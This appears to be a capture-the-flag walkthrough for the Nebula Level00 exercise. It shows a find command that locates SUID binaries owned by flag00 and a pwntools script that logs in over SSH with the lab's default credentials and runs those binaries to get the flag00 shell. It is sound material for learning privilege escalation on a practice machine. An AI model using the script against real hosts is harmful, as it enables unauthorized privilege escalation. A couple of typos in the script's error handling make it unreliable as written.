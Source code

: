 # Level00

#### Description

> This level requires you to _find_ a Set User ID program that will run as the “flag00” account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.
>
> Alternatively, look at the find man page.
>
> To access this level, log in as level00 with the password of level00.

#### Solution

We just to find SUID set binaries which will run as the 'flag00' account. We can simply find them via a find command:

```
find / -type f -perm -4000 -user flag00 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

Here we got 2 binaries, let's check both of them

* `/bin/.../flag00`

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

* `/rofs/bin/.../flag00`

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

By running any of the above binary, we got the flag00's account shell.

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level00', password='level00')

# Run find command to locate SUID binaries owned by user provided and stores all the result
find_command = "find / -type f -user flag00 -perm -u=s 2>/dev/null"
result = session.run(find_command)
binary_paths = result.recvall().decode().strip().split('\n')

# Check if any binaries were found or not
if not binary_paths or binary_paths == ['']:
    print("No SUID binaries found which were owned by user flag00.")
    session,close()
    exit(1)

# Execute each binary one by one and check if it is executable, if it is then execute that binary
for binary_path in binary_paths:
    if not binary_path.strip():
        continue

    print(f"Attempting to execute binary: {binary_path}")

    check_command = f"ls -l {binary_path}"
    check_result = session.run(check_command)
    check_output = check_result.recvall().decode().strip()

    if check_output and 'x' in check_output.split()[0]:
        try:
            terminal = session.process(binary_path)
            print(f"Successfully executed binary: {binary_path}")
            terminal.sendline('getflag')
            terminal.interactive()
            break
        except Exception as e:
            print(f"Failed to execute {binary_path}: {str(e)}")
    else:
        print(f"Binary {binary_path} is not executable or does not exist.")

session.close()
```

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

***

